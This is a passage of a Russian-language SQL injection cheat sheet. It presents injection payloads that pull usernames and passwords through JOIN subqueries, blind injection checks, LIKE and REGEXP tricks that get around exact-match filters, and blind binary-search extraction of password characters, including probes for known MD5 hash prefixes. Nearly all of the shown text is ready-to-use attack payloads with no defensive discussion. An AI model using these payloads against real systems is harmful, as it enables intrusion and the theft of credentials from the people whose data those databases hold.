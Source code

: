 **Извлечение данных через JOIN:**

```sql
-- Получаем данные из двух таблиц без UNION
' AND (SELECT t1.username || ':' || t2.password 
       FROM users t1 
       JOIN passwords t2 ON t1.id=t2.user_id 
       WHERE t1.username='admin') IS NOT NULL--
```

**Слепая инъекция с JOIN:**

```sql
-- Проверяем существование данных в связанных таблицах
' AND (SELECT COUNT(*) FROM users u 
       JOIN admin_privileges a ON u.id=a.user_id 
       WHERE u.role='admin') > 0--
```

#### **5) Регулярные выражения и LIKE**

**Механизм:**
- Использование паттернов для обхода точных фильтров.

**Примеры:**
- **Обход фильтров через REGEXP/LIKE:**
```sql
-- Вместо точного значения
' AND password='secret'--  -- заблокировано

-- Используем LIKE с wildcards
' AND password LIKE 'sec%'--
' AND password LIKE 's_c_e_'--  -- один символ вместо каждого

-- Используем REGEXP
' AND password REGEXP '^sec'--
' AND password REGEXP 's.c.e.'--  -- любой символ вместо точек
```

**Извлечение данных через паттерны:**
```sql
-- Определяем длину пароля
' AND LENGTH(password)=32--  -- для MD5

-- Проверяем формат (hex)
' AND password REGEXP '^[a-f0-9]{32}$'--

-- Проверяем по словарю хешей
' AND password LIKE '5f4dcc3%'--  -- начинается с хеша 'password'
' AND password LIKE 'e10adc3%'--  -- начинается с хеша '123456'
```

**Слепое извлечение через бинарный поиск:**
```sql
-- Вместо substring используем сравнение диапазонов
' AND ASCII(SUBSTRING(password,1,1)) BETWEEN 48 AND 57--  -- цифра?
' AND ASCII(SUBSTRING(password,1,1)) BETWEEN 97 AND 102-- -- hex буква?

-- Уточняем диапазон
' AND ASCII(SUBSTRING(password,1,1)) BETWEEN 97 AND 110-- -- a-n?
' AND ASCII(SUBSTRING(password,1,1)) BETWEEN 97 AND 104-- -- a-h?
```
